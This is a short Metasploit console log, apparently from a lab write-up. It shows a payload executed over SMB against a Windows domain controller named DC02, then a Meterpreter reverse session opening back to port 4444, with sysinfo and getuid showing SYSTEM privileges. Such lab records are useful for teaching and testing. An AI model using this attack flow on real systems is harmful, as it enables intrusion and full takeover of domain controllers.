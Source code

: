 ```msf
[*] 192.168.100.104:445 - Executing the payload...
[+] 192.168.100.104:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175686 bytes) to 192.168.100.104
[*] Meterpreter session 1 opened (192.168.100.1:4444 -> 192.168.100.104:64442) at 2023-01-12 16:50:55 +0100

meterpreter > sysinfo
Computer        : DC02
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : MYLAB
Logged On Users : 8
Meterpreter     : x86/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

